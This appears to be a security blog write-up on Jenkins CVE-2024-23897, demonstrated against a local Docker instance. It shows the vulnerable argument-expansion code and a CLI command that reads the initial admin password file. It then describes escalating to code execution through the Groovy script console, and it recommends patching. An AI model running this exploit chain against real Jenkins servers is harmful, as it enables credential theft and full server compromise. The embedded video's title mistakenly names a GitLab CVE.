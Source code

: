 ```yaml
---
title: "Compromise Jenkins reading files CVE-2024-23897"
description: "This article details how a simple vulnerability discovered in late January 2024 could allow an attacker to compromise Jenkins instances."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Penetration Testing", "Pentest", "Audit"]
---
```


# 💣 From a minor verbose error to full compromise

## The origin

On **January 25, 2024**, researchers from Sonar published 2 vulnerabilities related to the leader in open-source continuous integration and continuous deployment (CI/CD) software: **Jenkins**.

Jenkins plays a central role in **automating software development processes** for a large part of the industry, holding about **44% market share in 2023**. The potential impact of these vulnerabilities is therefore **significant**.

The most concerning flaw, identified as **CVE-2024-23897**, allows unauthenticated attackers to read limited data from arbitrary files and "read-only" authorized attackers to access an entire file on the Jenkins server.

Two vulnerabilities are explained:

- The vulnerability **CVE-2024-23897**:
    - A CVSS score of **9.8/10** (quite concerning) 😮
    - An anonymous attacker can read a limited portion of local files.
- The vulnerability **CVE-2024-23898**:
    - A CVSS score of 8.8/10
    - Allows an attacker to execute arbitrary CLI commands by enticing a victim to click on a malicious link (CSRF).

## In short

The most problematic vulnerability is the first one: **CVE-2024-23897**

- Unauthenticated attackers can read **the first lines of local files** present on the server.
- Authenticated "read-only" attackers can access the entire files.
- This vulnerability can be converted into RCE in several ways:
    - By reading files containing the default password
    - By elevating privileges to admin
    - By reading an SSH key
    - By retrieving secrets on the machine
    - Etc...

Jenkins provides other means to obtain direct command execution on its blog: https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Exploiting the first vulnerability is quite straightforward.

### Vulnerable docker

It's possible to test with vulnerable versions via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environment

First, retrieve the Jenkins utility jenkins-cli.jar via command line.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```
![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Vulnerable code

The code below details the vulnerable code.

The function checks if the argument starts with the `@` character, and if so, reads the file at the path following the `@` and creates a new argument for each line.

```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

This means that if an attacker can control an argument, they can extend it to a number of arguments from an arbitrary file on the Jenkins instance.

Hence, exploiting the `expandAtFiles()` function of arg4j displaying a verbose error when attempting to read the file is possible.

### Arbitrary reading...

The command below allows an unauthenticated user to retrieve the first line of the file `/var/jenkins_home/secrets/initialAdminPassword`

```java
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![File reading](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)


### ...to RCE

Thus, it's possible to retrieve the default administrator password if it hasn't been changed.

![Admin connexion](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)

Then, it's possible to log into `/script` to execute our commands.

![Remot code execution](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)


The code below allows the execution of the `/bin/id` command.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

To conclude, a demonstration is available just below!

### Recommended actions

Immediate update! The simplest solution is to update your Jenkins instance. A fix is available.

### Demonstration

Demonstration with the elements detailed above.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploiting Gitlab with vulnerability CVE-2023-7028" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
